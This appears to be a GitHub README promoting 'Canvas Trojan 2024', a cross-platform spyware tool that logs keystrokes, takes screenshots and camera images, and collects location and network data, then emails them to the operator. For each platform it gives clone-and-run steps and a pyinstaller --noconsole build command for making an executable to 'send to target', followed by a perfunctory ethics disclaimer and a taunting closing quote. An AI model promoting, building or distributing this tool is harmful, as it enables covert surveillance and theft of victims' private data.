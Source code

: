 Canvas Trojan 2024: A Multi-Platform Information Gathering Script .

Features :

Screenshots
Keystrokes
Hardware and network information
Geolocation data
Front camera captures
All data is securely delivered via email for your convenience.


Key Features
Screenshot Capture: Automatically captures desktop activity every 60 seconds.
Keylogging: Records typed text at configurable intervals.
Hardware Information: Retrieves details like CPU, GPU, and RAM specs.
Network Data: Captures IP addresses, MAC addresses, and more.
Geolocation Tracking: Provides approximate location details.
Camera Access: Takes images using the front camera (if available).


Installation and Setup
Windows
Open PowerShell or Command Prompt.
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
pip install -r requirements.txt
python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py



macOS
Open the Terminal.
Clone this repository
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
python3 -m pip install -r requirements.txt
python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Termux (Android)
Install Termux from F-Droid or the Google Play Store.
Update packages
pkg update && pkg upgrade
pkg install git python
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojanpip install -r requirements.txt
python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Linux
Open the Terminal.
Clone this repository
git clone https://github.com/BlackNode-stack/2024Trojan.git
cd 2024Trojan
python3 -m pip install -r requirements.txt
python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Usage Instructions
Email Configuration
During setup, you’ll need to provide:

The sender email.
The app password (generated through your email provider).
The recipient email address for receiving data.
Follow the platform-specific instructions to execute the script and ensure that data is sent correctly to your email.

Support
BTC Wallet: bc1q3kqdczj6q780y642yq9dvvfuk43g5a5uxn83f2
Ethereum Wallet: 0xE8e903eE127113c30aFd52acbDbdB567968534Ea
Feel free to support or donate if this tool was helpful to you! 😊

Disclaimer
Warning: This tool is intended for ethical and legal purposes only, such as cybersecurity research and penetration testing (with proper authorization). Unauthorized or malicious use of this script is illegal.

"Your defenses are paper walls against my storm. Every keystroke whispers your secrets; every shadow hides my trace. By the time you notice, I'll already be gone... or maybe I’ll just be watching."

